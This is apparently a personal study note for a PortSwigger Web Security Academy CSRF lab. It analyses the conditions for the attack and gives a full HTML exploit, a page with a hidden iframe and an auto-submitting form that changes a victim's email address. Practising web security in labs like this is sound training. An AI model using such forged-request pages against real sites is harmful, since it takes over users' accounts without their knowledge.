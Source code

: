 ```yaml
---
tags:
  - APPRENTICE
Link:
  - "[[CSRF]]"
External Link:
  - https://portswigger.net/web-security/csrf/lab-no-defenses
---
```


# CSRF vulnerability with no defenses
---

- **Info:**
	- Vulnerable parameter - email change functionality
	- Goal - exploit the CSRF vulnerability to change the email address of the victim user
	- creds - `wiener:peter`

-  **Analysis:**
	- In order for CSRF attack to be possible:
		- A relevant action - ***email change functionality***
		- Cookie-based session handling - ***session cookie***
		- No unpredictable request parameters - ***satisfied***

 - **Craft exploit**
```html
<html>
	<body>
		<h1>Hello World!</h1>
		<iframe style="display: none" name="csrf-iframe"></iframe>
		<form action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email" method="POST" target="csrf-iframe">
			<input type="hidden" name="email" value="anything@normal-user.net" >
		</form>
		<script>
			document.forms[0].submit();
		</script>
	</body>
</html>
```

